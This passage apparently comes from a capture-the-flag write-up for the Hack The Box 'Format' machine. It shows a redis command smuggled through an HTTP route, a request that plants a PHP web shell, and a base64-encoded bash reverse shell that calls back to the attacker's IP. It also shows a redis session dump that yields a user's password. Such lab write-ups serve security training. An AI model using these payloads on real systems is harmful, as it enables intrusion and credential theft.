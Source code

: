 The article talks about how the above `/static` route is a misconfiguration allowing for commands to be passed directly to redis via HTTP requests like the following:

```vim
curl -X "HSET" http://microblog.htb/static/unix:/var/run/redis/redis.sock:<USERNAME>%20pro%20true%20/abc
```

We can confirm this works on reload of the `app.microblog.htb` page which shows that we are a Pro user.

We can now change our exploit from earlier to be something like this:

```http
POST /edit/index.php HTTP/1.1
Host: lmao.microblog.htb
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://lmao.microblog.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lmao.microblog.htb/edit/?message=Section%20deleted&status=success
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: username=imkpc5igeei3e4f68jkkhnk13p
Connection: close

id=/var/www/microblog/lmao/uploads/rev.php&txt=%3c%3fphp%20system(%24_REQUEST%5b'cmd'%5d)%3b%3f%3e
```

Going to `/uploads/rev.php?cmd=id` will prove that the reverse shell is working.

I use the following payload as a POST request to get a reverse shell (Just a base64 encoded bash reverse shell being decoded and executed): `echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMS85MDAwIDA+JjEn | base64 -d | bash`

After getting a shell and doing an upgrade, I do `redis-cli -s /var/run/redis/redis.sock` to connect to the redis server:

```vim
www-data@format:~/microblog/lmao/uploads$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> keys *
1) "PHPREDIS_SESSION:imkpc5igeei3e4f68jkkhnk13p"
2) "cooper.dooper"
3) "cooper.dooper:sites"
4) "lmao"
5) "lmao:sites"
redis /var/run/redis/redis.sock> hget cooper.dooper password
"zooperdoopercooper"
```

This reveals the password `zooperdoopercooper` for the user `cooper` allowing us to `su cooper` or get a SSH shell.
